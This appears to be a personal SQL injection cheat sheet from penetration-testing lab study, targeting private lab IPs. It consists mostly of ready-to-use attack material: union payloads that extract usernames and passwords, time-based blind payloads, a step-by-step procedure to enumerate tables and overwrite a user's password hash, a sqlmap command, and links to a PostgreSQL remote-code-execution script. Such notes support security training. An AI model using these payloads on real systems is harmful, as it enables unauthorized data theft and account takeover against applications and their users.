

# SQL Entry point
- mysql ``` mysql -u root -p'root' -h 192.168.186.16 -P 3306```
- Interesting info
    ``` database(), user(), @@version ```

- mssql ``` impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth ```
    
    Get tables: ``` select * from {datatable}.information_schema.tables; ```

    

    example: ```table = offsec.dbo.users```

# Manual SQL exploit

## Union based payload
``` %' UNION SELECT database(), user(), @@version, null, null -- // ```

``` ' UNION SELECT null, username, password, description, null FROM users -- // ```

- Requires same number of columns & Usually first column union will be ignore (ID column)

## Blind SQL
- boolean/time-based checking

``` ' AND IF (1=1, sleep(3),'false') -- // ```
- test if something is exist : yes = do sleep 3 seconds
 
# Yes or no  (Time based)
- If condition correct will have delay e.g. ``` '; IF (1=2) WAITFOR DELAY '0:0:10';--  ```
- Using Count () = 1 to determine if have result return!
1. Check user table exist? 
   - MYSQL ``` select count(name) from sys.tables where name = 'users'  ```
   - MSSQL ``` SELECT COUNT(*) FROM information_schema.tables WHERE table_schema = DATABASE() AND table_name = 'users'; ```
2. Check column name 'user' in table 'users' ? 
   - MSSQL ``` select count(c.name) from sys.columns c, sys.tables t where c.object_id = t.object_id and t.name = 'users' and c.name = 'user'  ``` 
   - MYSQL ``` SELECT COUNT(*) FROM information_schema.columns WHERE table_schema = 'your_database_name' AND table_name = 'users' AND column_name = 'user'; ```
3. Check col name 'password' exist? --> if no clue then can use % character , then 1 letter by 1 letter test it e.g. now test pass% success then try passw%. To guess the result
   - MSSQL ``` select count(c.name) from sys.columns c, sys.tables t where c.object_id = t.object_id and t.name = 'users' and c.name like 'pass%'``` 
4. Stop testing until no more delay e.g. if ans = password_hash, password_hash% wont have delay!
5. Determine total columns 
   - MSSQL ``` (select count(c.name) from sys.columns c, sys.tables t where c.object_id = t.object_id and t.name = 'users' )>3 ```
   - MYSQL ``` SELECT COUNT(*) > 3 FROM information_schema.columns WHERE table_schema = DATABASE() AND table_name = 'users'; ```
6. Guess Username ( can use A% / B% / etc... to guess)
   - MSSQL ``` (select count(username) from users where username = 'butch')=1 ```
   - MYSQL ``` SELECT COUNT(*) = 1 FROM users WHERE username = 'butch'; ```
7. Update the password 
   - MSSQL ``` update users set password_hash = 'tacos123' where username = 'butch' ```
   - MYSQL ``` UPDATE users SET password_hash = 'tacos123' WHERE username = 'butch';```
8. Validate if can update!
9. Sometime not working caz those password is hashed and not match the application when check 
    ``` 
        echo -n 'tacos123' | md5sum
        echo -n 'tacos123' | sha1sum
        echo -n 'tacos123' | sha256sum 
    ```

# SQL Shellcode excution
## Manual shell


## Postgres RCE
- https://github.com/squid22/PostgreSQL_RCE/blob/main/postgresql_rce.py


## Automated 
- BANNED
- mysql
    ``` sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user ```

# MSSQL
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md#mssql-blind-based 
- UNC Path useful